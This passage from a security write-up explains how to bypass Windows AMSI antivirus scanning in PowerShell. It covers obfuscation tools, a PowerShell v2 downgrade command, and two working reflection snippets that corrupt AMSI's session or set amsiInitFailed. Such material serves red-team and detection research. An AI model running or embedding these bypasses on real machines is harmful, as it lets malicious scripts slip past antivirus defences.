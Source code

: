 ### Obfuscation

There are some interesting tools that can help us to create (minimally) obfuscated samples starting from a detected `.ps1` script:

1. [PSAmsi](https://github.com/cobbr/PSAmsi): it can detect the exact signatures and generated a minimally obfuscated script that will evade AMSI. You need to run in on a test machine because it will trigger a lot of AV alerts. Check out Ryan Cobb's [DerbyCon talk](https://www.youtube.com/watch?v=rEFyalXfQWk). [13] [14]
1. [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation): a general purpose PowerShell obfuscator that can apply a few different techniques and produce unique, obfuscated samples. Check out Daniel Bohannon's [Hacktivity talk](https://www.youtube.com/watch?v=uE8IAxM_BhE). [18] [19]

### PowerShell Downgrade Attack

Why PowerShell v2 is so useful in this case? Because version 2 doesn't have the necessary internal hooks to support AMSI so it's a _win-win_. In order to launch PowerShell v2 we can simply issue the following command:

```powershell
C:\Users\Public\phra> powershell -Version 2 -NoProfile -ExecutionPolicy Bypass -Command "'amsiutils'"
'amsiutils'
```

As we can see, the string `'amsiutils'` is not blocked by AMSI.

### Forcing an error

If we are able to force an error inside AMSI, the internal property `amsiInitField` will be set and AMSI won't be called anymore.

```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076) # allocate some memory
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null) # overwrite `amsiSession`
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem) # overwrite `amsiContext`
Write-host -ForegroundColor green "AMSI won't be called anymore"
```

### Setting amsiInitFailed to $true

Instead of causing an error, we can also directly set ourselves the `amsiInitField` property.
[@mattifestation](https://twitter.com/mattifestation) bypass is so short to fit into a [tweet](https://twitter.com/mattifestation/status/735261176745988096). [3]

```powershell
$amsi = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') # get `amsi.dll` handle
$field = $amsi.GetField('amsiInitFailed','NonPublic,Static') # get `amsiInitFailed` field
$field.SetValue($null,$true) # set it to `$true`
Write-host -ForegroundColor green "AMSI won't be called anymore"
```
